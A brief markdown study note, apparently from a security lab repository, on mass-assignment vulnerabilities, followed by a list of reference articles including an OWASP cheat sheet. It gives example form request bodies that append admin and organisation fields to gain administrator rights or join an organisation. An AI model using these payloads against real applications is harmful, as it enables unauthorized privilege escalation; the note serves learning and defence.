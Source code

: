 # **Mass-assignment vulnerability:**
  
- **(You can use a proxy or the web application debugger to inspect the traffic and copy the request as a curl command to send them back to the server.)**
  
- user[username]=test&user[password]=password&submit=Submit Query&**user[admin]=true**
  - ```using the bit user[admin]=true or user[admin]=1``` ***is where we elevate our permissions to admin***
- user[username]=test&user[password]=password&submit=Submit Query&**user[organisation_id]=1**
  - ```using the bit user[organisation_id]=1``` ***this registers a user to organisation 1***

&nbsp;

- Resources on Mass Assignment Vulnerability:
  - [OWASP CHEATSHEET on Mass Assignment Vulnerability](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)
  - [Mass Assignment](https://ropesec.com/articles/mass-assignment/)
  - [Exploring Rails Mass Assignment Vulnerability](https://medium.com/@jaeger.rob/exploring-rails-mass-assignment-vulnerability-b8b3d19e20b6)
  - [API Mass Assignment Vulnerability](https://www.virtuesecurity.com/kb/api-mass-assignment/)
  - [Mass Assignment Vulnerability](https://pragtob.wordpress.com/tag/mass-assignment-vulnerability/)
  - [A Git Horror Story on Mass Assignment Vulnerability](https://mikegerwitz.com/2012/05/a-git-horror-story-repository-integrity-with-signed-commits)